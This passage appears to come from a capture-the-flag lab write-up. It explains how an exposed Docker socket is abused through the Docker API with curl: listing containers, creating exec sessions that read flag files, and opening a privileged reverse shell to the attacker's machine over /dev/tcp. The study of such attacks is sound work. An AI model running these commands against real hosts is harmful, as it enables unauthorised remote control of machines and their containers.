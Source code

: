 > docker.sock is the UNIX socket that Docker daemon is listening to. It's the main entry point for Docker API. It also can be TCP socket but by default for security reasons Docker defaults to use UNIX socket. Exploiting a exposed docker.sock file allows you to do pretty much anything you want with any of the containers that run on the host. Access to the docker.sock file, locally or remotely, allows you to control docker as if you were on the host itself running docker commands.

There were 2 very interesting lines within the bash_history file. `ls -la /var/run/` which contained the salt and `docker.sock` files, as well as the `curl -s --unix-socket /var/run/docker.sock http://localhost/images/json` command which shows us how to interact with `docker.sock`.

The first step in this process was to get a list of all containers on the host. To do this, the following http request needed to be executed:

```json
curl -s --unix-socket /var/run/docker.sock http://localhost/containers/json
```

Once I had the container ID, I used the following curl command to determine if there was code execution:

```json
curl -XPOST --unix-socket /var/run/docker.sock --data-binary '{"AttachStdin": true,"AttachStdout": true,"AttachStderr": true,"Cmd": ["cat", "/root/root.txt"],"DetachKeys": "ctrl-p,ctrl-q"}' -H "Content-Type: application/json" http://localhost/containers/2d24bf61767ce2a7a78e842ebc7534db8eb1ea5a5ec21bb735e472332b8f9ca2/exec
```
```json
curl -XPOST --unix-socket /var/run/docker.sock -H 'Content-Type: application/json' --data-binary '{"Detach": false,"Tty": false}' http://localhost/exec/cdd16ae3094015eb00f304a61ffbdf9051351c6e274ee15658362cbd382b3ce8/start --output -
```

This resulted in the following error: `/cat: /root/root.txt: No such file or directory`. However, changing the file to `todo.txt` resulted in the previous file being output to the screen which more than likely meant that I needed to create my own container.  Okay! I now had command execution through the container. Using this information, I attempted to get a reverse shell back to my machine. In order to test out the commands using a container that already works, I changed the command to return a reverse shell instead. 

```json
curl -XPOST --unix-socket /var/run/docker.sock --data-binary '{"AttachStdin": true,"AttachStdout": true,"AttachStderr": true,"Cmd": ["/bin/bash", "-c","bash -i >& /dev/tcp/10.10.14.49/4321 0>&1"],"DetachKeys": "ctrl-p,ctrl-q","Privileged": true,"Tty": true}' -H "Content-Type: application/json" http://localhost/containers/2d24bf61767ce2a7a78e842ebc7534db8eb1ea5a5ec21bb735e472332b8f9ca2/exec
```
```json
curl -XPOST --unix-socket /var/run/docker.sock -H 'Content-Type: application/json' --data-binary '{"Detach": false,"Tty": false}' http://localhost/exec/4a63b8963e636629afd1af54af6a7772e8e0c1f31732f67214aa2eb58789d15c/start --output -
```

<p class="imgMiddle">